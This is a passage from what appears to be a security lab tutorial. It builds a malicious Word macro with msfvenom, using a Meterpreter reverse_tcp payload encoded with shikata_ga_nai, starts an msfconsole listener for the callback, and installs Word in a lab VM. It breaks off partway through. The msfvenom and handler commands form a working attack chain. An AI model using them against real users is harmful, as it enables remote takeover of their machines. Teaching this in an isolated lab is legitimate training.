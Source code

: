           msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=virbr1 LPORT=7777 -e x86/shikata_ga_nai -f vba-exe > word-macro-exploit

     This will save the exploit to a file called `word-macro-exploit`
2.   Open `word-macro-exploit` using `leafpad`, and read the beginning of the output. It explains that the output is
     divided into two sections: A "Macro" section and a "Payload" section.

     We will need to put the "Macro" section into a VBA module attached to a Word document,
     and the "Payload" section into the body text of the Word document.

     The "Payload" is byte-code that the macro will read and write out into a file on the
     victim machine, after which it will execute the newly-created executable.

3.   In Kali, use `msfconsole` to spin up a listener that will wait for a connection from our Word meterpreter payload:

          use exploit/multi/handler
          set payload windows/meterpreter/reverse_tcp
          set LPORT 7777
          set LHOST virbr1
          set ExitOnSession false
          exploit -j

4.   Install Word into the Windows virtual machine.

     The version of Word that gets installed on the lab virtual machine only works for 5 days without a product key.
     The first time that you install windows to your virtual machine, you can run the following from kali as `root`:

         cd /root/vagrant-boxes/lab-windows-2019-vuln/
         git pull
         vagrant up
         vagrant provision --provision-with install-word

     The installation process takes about two minutes.


     <div class='alert alert-info'><strong>If your Word install expires </strong>
     <p>If your Word activation grade period expires, you can get a fresh start
     by running the full vagrant destroy-up-provision cycle again, via running
     the following from a terminal as `root`</p>

     <div markdown="1">
     ```bash
     cd /root/vagrant-boxes/lab-windows-2019-vuln
     vagrant destroy
     vagrant up
     vagrant provision --provision-with install-word
     vagrant provision --provision-with reboot
     ```
     </div>


1.   When the script finishes, open Word on Windows. Navigate through the welcome prompts.

     * On the screen `Sign in to set up Office`, click the `x` in the upper-right corner.
     * On the privacy page, click "Next"
     * On the next page, select "Don't send optional data"
     * On the next page, click "Done".
1.   Open a new blank document:
